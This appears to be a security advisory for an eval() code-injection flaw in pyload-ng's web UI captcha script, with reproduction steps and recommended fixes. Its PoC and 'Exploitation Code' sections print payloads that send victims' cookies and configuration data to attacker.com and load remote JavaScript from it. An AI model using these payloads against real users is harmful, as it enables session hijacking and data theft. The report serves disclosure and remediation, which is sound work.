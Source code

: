 ## Improper Input Neutralization Leading to Code Injection in pyload-ng**


**Summary**
A critical **Server-Side Template Injection (SSTI)/Code Injection** vulnerability exists in `pyload-ng` `v0.5.0b3.dev90` web UI component. Attackers can execute arbitrary JavaScript code by manipulating URL parameters due to improper input sanitization in client-side script handling. This allows session hijacking, data theft, and remote code execution via malicious links.
**Location:**  `src/pyload/webui/app/static/js/captcha-interactive.user.js` [Lines 107-108](https://github.com/pyload/pyload/blob/70a44fe02c03bce92337b5d370d2a45caa4de3d4/src/pyload/webui/app/static/js/captcha-interactive.user.js#L107-L108)

**Vulnerable Code:**  
```javascript
eval(document.location.href.substring(document.location.href.indexOf("default=")+8))
```

**Mechanism:**  
User-controllable input from the URL parameter `default=` is directly passed to `eval()` without sanitization. This allows attackers to craft malicious URLs that execute JavaScript in the victim's browser when visited.

---

## Step-by-Step Reproduction (PoC)
1. **Setup Environment:**  
   Run pyload-ng v0.5.0b3.dev90 with web UI enabled.

2. **Craft Malicious URL:**  
   ```
   http://<TARGET_IP>:<PORT>/captcha?default=alert(document.cookie);
   ```

3. **Trigger Exploit:**  
   Send victim to the URL or visit it directly.

4. **Observe Result:**  
   Browser executes injected JavaScript (`alert()` shows session cookies).


## Proof of Concept (PoCs)

**Malicious HTTP Request (Burp Suite):**
```http
GET /captcha?default=fetch('https://attacker.com/steal?cookie='%2Bdocument.cookie); HTTP/1.1
Host: 127.0.0.100:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: */*
Connection: close
```

**Vulnerable HTTP Response:**
```http
HTTP/1.1 200 OK
Content-Type: text/html

... (normal page content)
<script>
  // Vulnerable eval() executes injected payload:
  eval("fetch('https://attacker.com/steal?cookie='+document.cookie);")
</script>
```

**Vulnerable Evidence:**  
Victim's cookies are sent to `attacker.com/steal`:
```
GET /steal?cookie=sessionid=abc123def456 HTTP/1.1
Host: attacker.com
```


## Vulnerable Code 
**File:** `captcha-interactive.user.js`  
```javascript
// Directly evaluates unsanitized URL parameter
eval(document.location.href.substring(
       document.location.href.indexOf("default=")+8
));
```

**Flaws:**  
1. Direct `eval()` on user-controlled input (`location.href`)  
2. No validation/sanitization of the `default=` parameter  
3. Assumes parameter value is safe text, not executable code  


## Exploitation Code
**Basic Payload:**  
```javascript
// Cookie exfiltration
fetch('https://attacker.com/steal?cookie=' + document.cookie);

// Session hijacking (replace session)
document.cookie = "sessionid=HACKED_SESSION; path=/";

// Remote code execution via debugger
import('https://attacker.com/malware.js');
```

**Advanced Attack Chain:**  
```javascript
// Chain with server-side exploits
(async () => {
  const config = await (await fetch('/api/get_config')).json();
  fetch('https://attacker.com/leak', {
    method: 'POST',
    body: JSON.stringify(config)
  });
})();
```


**Impact:**  
- Session hijacking via cookie theft  
- Remote code execution in victim's context  
- Client-side data exfiltration  
- XSS chain exploitation  

**CWE:** [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code](https://cwe.mitre.org/data/definitions/95.html)

---

### **Recommended Fix**
**Immediate Mitigation:**  
Replace `eval()` with safe parameter handling:
```javascript
// FIXED: Use URLSearchParams API
const params = new URLSearchParams(window.location.search);
const defaultValue = params.get('default') || '';

// Sanitize using DOMPurify or encode for text context
document.getElementById('captcha-field').value = 
  DOMPurify.sanitize(defaultValue);
```

**Long-Term Solutions:**  
1. **Remove `eval()`**:  
   ```diff
   - eval(...);
   + const safeValue = sanitizeUrlParam(location.href);
   ```

2. **Implement Strict CSP:**  
   ```http
   Content-Security-Policy: script-src 'self'; object-src 'none'
   ```

3. **Input Validation:**  
   ```javascript
   const sanitizeUrlParam = (input) => {
     return input.replace(/[^a-zA-Z0-9_-]/g, '');
   };
   ```

4. **Use Templating Safely:**  
   ```javascript
   // Pug example: Pass user input as data, not template code
   pug.compile(template)({ userInput: sanitizedValue });
   ```


### **References**
1. [CWE-95: Eval Injection](https://cwe.mitre.org/data/definitions/95.html)  
2. [OWASP Code Injection](https://owasp.org/www-community/attacks/Code_Injection)  
3. [PortSwigger: Client-Side Template Injection](https://portswigger.net/research/client-side-template-injection)  
4. [DOMPurify - HTML Sanitizer](https://github.com/cure53/DOMPurify)  

---

**Additional EvidenceVulnerable Code Context:**  
```javascript
// Original vulnerable code block
function loadDefault() {
  try {
    if (document.location.href.indexOf("default=") > 0) {
      eval(document.location.href.substring( // VULNERABLE LINE
        document.location.href.indexOf("default=")+8
      ));
    }
  } catch(e) { console.error(e); }
}
```

**Fixed Implementation:**  
```javascript
// Secure alternative
function loadDefault() {
  const params = new URLSearchParams(window.location.search);
  const defaultVal = params.get('default') || '';
  
  if (defaultVal) {
    document.getElementById('captcha-input').value = 
      defaultVal.replace(/[<>"'\\]/g, '');
  }
}
``` 

This report provides comprehensive technical details for vulnerability verification and remediation.

